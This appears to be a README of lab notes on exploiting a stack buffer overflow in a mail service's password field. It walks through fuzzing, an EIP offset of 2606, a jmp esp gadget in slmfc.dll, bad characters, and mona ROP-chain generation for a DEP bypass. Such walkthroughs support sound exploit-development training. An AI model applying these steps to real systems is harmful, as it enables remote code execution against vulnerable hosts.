




# DEP_bypass----Buffer_Overflow


### 1. Fuzzing

- buffer overflow in password field
- after sending 3000 bytes

- we successfully overwrite instruction pointer




### 2. Controlling EIP

```
!mona pc 3000
```

```
!mona po address
```

- we need to find offset, so that control it with our desired value

- offset is at 2606



- we can control EIP after 2606 bytes of offset




### 3. finding jmp esp

```
!mona jmp -r esp
!mona find -s '\xff\xe4' -m slmfc.dll
```


- jump esp is there to make EIP control go to stack where payload is loaded and then execute it




### 4. finding badchars

```
!mona compare -f file -a address
```


- badchars

```
"\x00\x0a\x0d"
```


### 5. with DEP

```
!mona rop -m *.dll -n -cpb "\x00\x0a\x0d"
```

